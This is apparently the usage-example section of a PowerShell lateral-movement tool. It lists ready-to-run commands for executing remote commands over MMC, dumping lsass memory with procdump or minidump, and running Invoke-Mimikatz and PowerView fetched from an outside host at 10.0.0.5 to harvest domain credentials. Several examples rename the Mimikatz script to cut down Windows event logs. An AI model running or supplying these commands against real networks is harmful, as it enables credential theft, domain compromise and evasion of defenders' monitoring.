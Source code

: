 .EXAMPLE  
Open up notepad.exe on a single host with the -CustomCommand flag  
Invoke-LateralMovement -HostName 10.0.0.2 -MMCCommand -CustomCommand "cmd.exe /c notepad.exe"

.EXAMPLE  
Perform "vssadmin list shadows" on a single host with the -CustomCommand flag and receive the results with the -Server flag  
Invoke-LateralMovement -HostName 10.0.0.2 -MMCCommand -CustomCommand "cmd.exe /c vssadmin list shadows" -Server

-----------------------------

.EXAMPLE  
Perform procdump on a single machine and pull the dump back to your local machine (Default will be on the Desktop):  
Invoke-LateralMovement -HostName 10.0.0.2 -ProcDump -UserName AdminUser -Password P@55w0rd -Domain CORP -PDir C:\temp\procdump.exe

Perform procdump on multiple machines and pull the dump back to your local machine (Default will be on the Desktop):  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -ProcDump -UserName AdminUser -Password P@55w0rd -Domain CORP -PDir C:\temp\procdump.exe

-----------------------------

.EXAMPLE  
Perform a minidump on the lsass process of a single machine and pull dump back to your local machine (Default will be on the Desktop):  
Invoke-LateralMovement -HostName 10.0.0.2 -MiniDump -UserName AdminUser -Password P@55w0rd -Domain CORP

-----------------------------

.EXAMPLE  
Perform I n v o k e - M i m i k a t z -DumpCreds on a single machine and pull results over SMB:  
Invoke-LateralMovement -HostName 10.0.0.2 -InvMkatz -UserName AdminUser -Password P@55w0rd -Domain CORP -ScriptDir http://10.0.0.5/Invoke-Mimikatz.ps1
 
Perform I n v o k e - M i m i k a t z -DumpCreds on a multiple machine and pull results over SMB:  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -InvMkatz -UserName AdminUser -Password P@55w0rd -Domain CORP -ScriptDir http://10.0.0.5/Invoke-Mimikatz.ps1

Perform I n v o k e - M i m i k a t z -DumpCreds on a single machine and pull results over HTTP on port 8080 with a custom script name (Less Windows event logs):  
Invoke-LateralMovement -HostName 10.0.0.2 -MassKatz -UserName AdminUser -Password P@55w0rd -Domain CORP -ScriptDir http://10.0.0.5/Invoke-Update.ps1 -CustomCommand Invoke-Update -ServerPort 8080
 
Perform I n v o k e - M i m i k a t z -DumpCreds on a multiple machine  with a custom script name (Less Windows event logs) and pull results over HTTP on port 80 into the C:\temp folder:  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -MassKatz -UserName AdminUser -Password P@55w0rd -Domain CORP -ScriptDir http://10.0.0.5/Invoke-Update.ps1 -CustomCommand Invoke-Update -OutputFolder "C:\temp"

.EXAMPLE  
Perform Get-DomainGroupMember on a single machine and pull results over HTTP on port 8080 with a custom script name (Less Windows event logs):  
Invoke-LateralMovement -HostName 10.0.0.2 -ExecPS -UserName AdminUser -Password P@55w0rd -Domain CORP -ScriptDir http://10.0.0.5/PowerView.ps1 -CustomCommand "Get-DomainGroupMember 'Domain Admins'" 
 